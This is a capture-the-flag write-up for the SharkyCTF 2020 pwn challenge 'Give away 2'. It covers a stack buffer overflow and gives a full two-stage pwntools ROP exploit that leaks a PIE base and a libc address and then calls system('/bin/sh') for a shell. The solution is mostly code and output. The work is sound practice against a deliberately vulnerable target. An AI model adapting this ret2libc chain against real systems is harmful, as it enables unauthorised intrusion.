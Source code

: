 # SharkyCTF 2020

## Give away 2

>293
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20335`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_2) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86-64_ _rop_


## Summary

Overflow buffer; `main` address leak, followed by libc leak, and then a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  init_buffering();
  printf("Give away: %p\n",main);
  vuln();
  return 0;
}
```

Address of `main` leaked.  However, with PIE/ASLR and no `win` function, we'll have to leak libc ourselves and call `vuln` for a 2nd pass.

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x80,stdin);
  return;
}
```

`32` != `0x80` (128).  A roomy vulnerability.

`local_28` is `0x28` bytes above the return address.


## Exploit

### First Pass

```python
#!/usr/bin/python3

from pwn import *

p = process('./give_away_2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#p = remote('sharkyctf.xyz', 20335)
#libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

p.recvuntil('Give away: ')
main = int(p.recvline().strip(),16)

binary = ELF('./give_away_2')
procbase = main - binary.symbols['main']
print('procbase: ' + hex(procbase))

rop = ROP('./give_away_2')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    print('pop_rdi: ' + hex(pop_rdi + procbase))
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi + 1)
payload += p64(procbase + pop_rdi)
payload += p64(procbase + binary.got['printf'])
payload += p64(procbase + binary.plt['printf'])
payload += p64(procbase + binary.symbols['vuln'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
```

> The extra `ret` (`payload += p64(procbase + pop_rdi + 1)`) is required to align the stack, see Blind Piloting for a lengthly example and explanation.

The first pass will collect the leaked `main` and compute base process address, with that + GOT we can leak the address of `printf` by having `printf` emit its own address.

Lastly, we have to return back to `vuln` for the second pass.


### Second Pass

```python
printf=u64(p.recv(6)+b'\x00\x00')
libcbase = printf - libc.symbols['printf']
print("libcbase: " + hex(libcbase))

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
p.interactive()
```

With address of `printf` leaked, computing the base of libc is trivial.

The new payload just pops the address of `/bin/sh` off the stack and calls `system` for a shell.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20335: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
procbase: 0x564a0f699000
[*] Loading gadgets for '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
pop_rdi: 0x564a0f699903
libcbase: 0x7fe5d4cac000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{It's_time_to_get_down_to_business}
```
